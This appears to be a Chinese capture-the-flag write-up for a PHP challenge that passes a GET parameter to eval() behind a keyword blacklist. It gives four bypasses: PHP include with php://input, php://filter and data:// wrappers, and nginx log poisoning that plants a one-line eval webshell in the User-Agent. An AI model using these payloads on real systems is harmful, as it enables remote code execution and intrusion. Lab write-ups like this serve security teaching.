










```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

flag

system

php

cat

sort

shell

.

空格

‘

`

echo

;

(


## 第一种方案

嵌套一个include，结合php://input

GET提交

```
?c=include$_GET[a]?>&a=php://input
```

POST提交

```
<?php system("ls");?>
```



```
?c=include$_GET[a]?>&a=php://input
```

```
<?php system("ls");?>
```




## 第二种方案

利用include结合php://filter

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```



解码得到flag




## 第三种方案

利用inclue结合data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```




## 第四种方案

日志注入

bp抓包，确定是nginx服务器



尝试利用include读取日志文件

```
?c=include$_GET[a]?>&a=../../../../../../../var/log/nginx/access.log
```



记录了UA信息

尝试修改请求包，修改UA注入木马

```
ra<?php @eval($_POST[a]);?>1n3
```



注意这里

外部拼接字符串ra1n3，然后中间是一句话木马，而当该木马成功被服务器解析后，则字符串ra1n3可以完整拼接在一起，即证明木马可用

再次读取日志文件，全局搜索ra1n3



即成功写入木马

然后POST直接rce

```
?c=include$_GET[a]?>&a=../../../../../../../var/log/nginx/access.log
```

```
a=system("cat flag.php");
```



